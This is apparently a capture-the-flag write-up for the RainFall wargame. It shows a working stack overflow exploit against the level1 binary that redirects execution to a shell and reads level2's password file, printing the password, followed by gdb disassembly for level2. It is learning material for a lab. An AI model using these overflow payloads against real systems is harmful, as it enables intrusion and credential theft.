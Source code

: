```bash
fs             0x0      0
gs             0x33     51
```

The next step is to try to overwrite `$eip` with the address of the `run` function found in the binary previously

```bash
# The first 4 bytes are for $ebp and the other 4 for $eip
level1@RainFall:~$ ./level1  <<< `perl -e 'print "A"x72'`$(echo -n -e "\xd8\xf6\xff\xbf\x44\x84\x04\x8")
Good... Wait what?
Segmentation fault (core dumped)

level1@RainFall:~$ perl -e 'print "A"x72' > /tmp/lol

level1@RainFall:~$ echo -n -e "\xd8\xf6\xff\xbf\x44\x84\x04\x8" >> /tmp/lol

level1@RainFall:~$ cat /tmp/lol  | ./level1 
Good... Wait what?
Segmentation fault (core dumped)

level1@RainFall:~$ cat /tmp/lol - | ./level1 
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

- [Stack base overflow tutorial](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)

Some image of what we're doing here, replace `strcpy()` by `gets()`

![](https://www.corelan.be/wp-content/uploads/2010/09/image_thumb24.png)

![](https://camo.githubusercontent.com/3862e2874666eb632fad1ab3f16b420b3c558344/68747470733a2f2f692e696d6775722e636f6d2f527868674459762e706e67)

- (https://www.tenouk.com/Bufferoverflowc/Bufferoverflow3.html)
    
## Level2

- [`objdump -d` output]()

### ASM Interpretation

```bash
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   ebp
   0x08048540 <+1>:     mov    ebp,esp
   0x08048542 <+3>:     and    esp,0xfffffff0
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
```
